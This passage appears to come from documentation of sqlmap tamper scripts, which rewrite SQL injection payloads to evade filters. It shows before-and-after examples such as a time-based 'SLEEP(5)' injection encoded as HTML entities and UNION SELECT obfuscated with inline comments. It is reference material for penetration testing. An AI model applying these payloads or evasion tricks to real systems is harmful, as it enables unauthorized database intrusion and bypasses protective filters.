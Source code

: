 -- After using the tamper  
'/*!0UNION/*!0ALL/*!0SELECT

- hex2char

Replaces each (MySQL) `0x<hex>` encoded string with equivalent `CONCAT(CHAR(),…)` counterpart. For example:

-- First payload  
SELECT 0xdeadbeef  
  
-- After using the tamper  
SELECT CONCAT(CHAR(222),CHAR(173),CHAR(190),CHAR(239))

- hexentities

HTML encode in hexadecimal (using code points) all characters. For example:

-- First payload  
1' AND SLEEP(5)#  
  
-- After using the tamper  
&#x31;&#x27;&#x20;&#x41;&#x4e;&#x44;&#x20;&#x53;&#x4c;&#x45;&#x45;&#x50;&#x28;&#x35;&#x29;&#x23;

- htmlencode

HTML encode (using code points) all non-alphanumeric characters. For example:

-- First payload  
1' AND SLEEP(5)#  
  
-- After using the tamper  
1&#39;&#32;AND&#32;SLEEP&#40;5&#41;&#35;

- if2case

Replaces instances like `IF(A, B, C)` with `CASE WHEN (A) THEN (B) ELSE (c) END` counterpart. For example:

-- First payload  
IF(1, 2, 3)  
  
-- After using the tamper  
CASE WHEN (1) THEN (2) ELSE (3) END

- ifnull2casewhenisnull

Replaces instances like `IFNULL(A, B)` with `CASE WHEN ISNULL(A) THEN (B) ELSE (A) END` counterpart. For example:

-- First payload  
IFNULL(1, 2)  
  
-- After using the tamper  
CASE WHEN ISNULL(1) THEN (2) ELSE (1) END

- ifnull2ifisnull

Replaces instances like `IFNULL(A, B)` with `IF(ISNULL(A), B, A)` counterpart. For example:

-- First payload  
IFNULL(1, 2)  
  